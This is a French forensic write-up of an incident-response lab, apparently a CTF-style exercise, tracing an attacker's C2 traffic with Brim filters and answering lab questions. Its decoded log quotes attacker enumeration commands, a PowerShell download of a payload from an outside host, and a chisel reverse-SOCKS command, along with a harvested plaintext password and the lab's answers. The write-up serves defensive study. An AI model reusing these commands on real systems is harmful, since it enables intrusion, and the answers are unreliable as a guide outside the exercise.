




# Reconnaissance interne
 
D'après les éléments collectés, on a découvert que le **binaire malveillant utilise en continu le trafic C2** :
 
- On peut facilement **décoder la chaîne encodée** dans le trafic réseau.
- Le trafic contient les **commandes exécutées par l'attaquant et leur résultat**.
## Guide d'investigation
 
Pour poursuivre l'investigation, on peut se concentrer sur les informations suivantes :
 
- Recherchez les **événements réseau et processus** qui se connectent au domaine malveillant.
- Recherchez les **événements réseau contenant une commande encodée**.
- On peut utiliser **Brim** pour filtrer tous les paquets contenant la chaîne encodée.
- Cherchez des **commandes d'énumération du poste**, puisque l'attaquant est déjà à l'intérieur de la machine.
On peut aussi se référer à l'aide-mémoire Brim pour analyser rapidement le trafic encodé avec le filtre suivant :
 
- Pour obtenir toutes les requêtes HTTP liées au trafic C2 malveillant :
```
_path=="http" "<domaine>" id.resp_p==<port> | cut ts, host, id.resp_p, uri | sort ts
```
### Question

1 - L'attaquant a réussi à découvrir un fichier sensible sur la machine de l'utilisateur. Quel est le mot de passe découvert dans ce fichier ?

On utilise la commande donné pour récupérer les requetes : _path=="http" "resolvecyber.xyz" id.resp_p==80 | cut ts, host, id.resp_p, uri | sort ts


On décode ensuite les requetes en base64 afin de décoder le trafic :

```
whoami - tempest\benimaru
pwd - 
Path               
----               
C:\Windows\system32


dir C:\Users - 

    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
d-----        6/20/2022   9:06 PM                benimaru                                                               
d-r---        6/20/2022   4:03 PM                Public                                                                 
d-----        6/20/2022  11:52 PM                rimuru                                                                 


net users - 
User accounts for \\TEMPEST

-------------------------------------------------------------------------------
Administrator            benimaru                 DefaultAccount           
Guest                    rimuru                   WDAGUtilityAccount       
The command completed successfully.

net localgroup administrators - Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
rimuru
The command completed successfully.

net localgroup administrators - Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
rimuru
The command completed successfully.

net localgroup administrators - Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
rimuru
The command completed successfully.

dir C:\Users\benimaru\documents - dir C:\users\benimaru\Desktop - 

    Directory: C:\users\benimaru\Desktop


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----        6/20/2022  11:34 PM            268 automation.ps1                                                         
-a----        6/20/2022   4:13 PM           1446 Microsoft Edge.lnk                                                     


cat C:\Users\Benimaru\Desktop\automation.ps1 - $user = "TEMPEST\benimaru"
$pass = "infernotempest"

$securePassword = ConvertTo-SecureString $pass -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $user, $securePassword

## TODO: Automate easy tasks to hack working hours
cat C:\Users\Benimaru\Desktop\automation.ps1 - $user = "TEMPEST\benimaru"
$pass = "infernotempest"

$securePassword = ConvertTo-SecureString $pass -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $user, $securePassword

## TODO: Automate easy tasks to hack working hours
powershell iwr http://phishteam.xyz/02dcf07/ch.exe -outfile C:\Users\benimaru\Downloads\ch.exe - dir C:\Users\benimaru\Downloads\ch.exe - 

    Directory: C:\Users\benimaru\Downloads


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----        6/21/2022   1:17 AM        8230912 ch.exe

netstat -ano -p tcp -
Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       864
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5508
  TCP    0.0.0.0:5357           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       4964
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       476
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1212
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1760
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2424
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49676          0.0.0.0:0              LISTENING       608
  TCP    192.168.254.107:139    0.0.0.0:0              LISTENING       4
  TCP    192.168.254.107:51802  52.139.250.253:443     ESTABLISHED     3216
  TCP    192.168.254.107:51839  34.104.35.123:80       TIME_WAIT       0
  TCP    192.168.254.107:51858  104.101.22.128:80      TIME_WAIT       0
  TCP    192.168.254.107:51860  20.205.146.149:443     TIME_WAIT       0
  TCP    192.168.254.107:51861  204.79.197.200:443     ESTABLISHED     4352
  TCP    192.168.254.107:51871  20.190.144.169:443     TIME_WAIT       0
  TCP    192.168.254.107:51876  52.178.17.2:443        ESTABLISHED     4388
  TCP    192.168.254.107:51878  20.60.178.36:443       ESTABLISHED     4388
  TCP    192.168.254.107:51881  52.109.124.115:443     ESTABLISHED     4388
  TCP    192.168.254.107:51882  52.139.154.55:443      ESTABLISHED     4388
  TCP    192.168.254.107:51884  40.119.211.203:443     ESTABLISHED     4388
  TCP    192.168.254.107:51895  52.152.90.172:443      ESTABLISHED     5508
  TCP    192.168.254.107:51896  20.44.229.112:443      ESTABLISHED     8904                                                        

```
réponse : infernotempest

2 - L'attaquant a ensuite dressé la liste des ports en écoute sur la machine. Quel est le port en écoute susceptible de permettre l'accès à un shell distant sur la machine ?

En faisant des recherches sur internet, le port 5985 est utilisé pour la prise en main à distance.



3 - L'attaquant a ensuite mis en place un proxy SOCKS inversé afin d'accéder aux services internes hébergés sur la machine. Quelle est la commande exécutée par l'attaquant pour établir cette connexion ?

SOCKS normal : l’attaquant (WAN) initie vers la victime (LAN) → entrant → le firewall bloque.
SOCKS inversé : la victime (LAN) initie vers l’attaquant (WAN) → sortant → le firewall laisse passer.

Pour trouver la commande on filtre sur l’exécutable ch.exe que l'on peut voir apparaitre dans la chaine en base64 décodé.



réponse : C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks

4 - Quel est le hash SHA256 du binaire utilisé par l'attaquant pour établir la connexion via le proxy SOCKS inversé ?

On récupéré le hash de ch.exe dans le timeline explorer.



réponse : 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451

5 - Quel est le nom de l'outil utilisé par l'attaquant, d'après l'empreinte SHA256 ? Donnez la réponse en minuscules.

On passe le hash dans virus total pour l'identifier :



réponse : chisel

L'attaquant a ensuite utilisé les identifiants récupérés sur la machine. D'après les opérations ayant suivi l'exécution du proxy SOCKS, quel service l'attaquant a-t-il utilisé pour s'authentifier ?


